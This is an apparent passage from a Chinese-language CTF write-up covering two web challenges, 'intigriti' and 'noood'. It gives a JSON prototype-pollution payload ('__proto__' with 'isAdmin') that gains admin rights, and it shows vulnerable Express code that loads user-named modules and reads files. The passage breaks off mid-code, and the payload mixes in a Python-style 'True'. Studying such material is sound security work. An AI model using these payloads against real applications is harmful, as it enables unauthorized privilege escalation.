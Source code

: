 ```python
           })
print(r.headers)
print(r.text)
```

 intigriti

如何创建一个admin用户？



关键代码：

```javascript
user = JSON.parse(req.body)
let newUser = Object.assign(baseUser, user)
```

但是我们可以完全控制 `user` ，因此可以如下步骤：

```javascript
{"__proto__":{"isAdmin":true},"inviteCode":"xxxxxxxxxx"}
>let user = JSON.parse('{"__proto__":{"isAdmin":true},"inviteCode":"xxxxxxxxxx"}')
>user.isAdmin // ? why
 undefined
>user.__proto__.isAdmin
 true
```

答案当使用 `JSON.parse()` 解析一个JSON字符串时，`__proto__` 属性并不会按照原型链的方式进行设置。JSON字符串的解析完全基于其自身的文字内容，它不会改变对象的原型链。也就是说，`JSON.parse()` 不会把 `__proto__` 理解为原型链的指示，而只是把它当作一个普通的属性来处理。

payload

```javascript
{"__proto__": {"isAdmin": True}, "user": "test", "inviteCode": 0}
```


 noood

题目思考：flag 在根目录， 
```javascript
flag{xxxxxx}
```

源代码：
```javascript
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const config = {}

app.use(bodyParser.json());

app.post('/:lib/:f', (req, res) => {
    let jsonlib = require(req.params.lib);
    let valid = jsonlib[req.params.f](req.body);

    let p;
    if(config.path) {
        p = config.path;
    }

    let data = fs.readFileSync(p).toString();

    res.send({
        "validator": valid, 
        "data": data, 
```